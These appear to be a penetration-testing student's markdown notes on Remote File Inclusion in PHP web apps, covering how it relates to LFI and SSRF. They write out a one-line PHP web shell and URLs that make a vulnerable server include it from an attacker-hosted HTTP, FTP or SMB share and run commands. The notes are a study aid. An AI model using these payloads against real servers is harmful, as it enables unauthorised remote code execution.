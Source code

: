 # Remote File Inclusion (RFI)

* \
  The vulnerable function allows the inclusion of remote URLs. This allows two main benefits:
  1. Enumerating local-only ports and web applications (i.e. SSRF)
  2. Gaining remote code execution by including a malicious script that we host
* Almost any Remote File Inclusion vulnerability is also an [Local File Inclusion (LFI)](app://obsidian.md/Local%20File%20Inclusion%20\(LFI\)) vulnerability, as any function that allows including remote URLs usually also allows including local ones
  * an LFI may not necessarily be an RFI.
    * The vulnerable function may not allow including remote URLs
    * You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
    * The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default

```
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

### Remote Code Execution with RFI

```shell-session
 echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

* start a [Personal web server](app://obsidian.md/Personal%20web%20server)

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

#### FTP

* if FTP is blocked use FTP server
  * setup ftp server [Setup FTP Server](app://obsidian.md/Personal%20web%20server#FTP%20Server)

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

* cli version

```shell-session
 curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

#### SMB

*   if a windows web server is being used

    ```shell-session
    impacket-smbserver -smb2support share $(pwd)
    ```

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
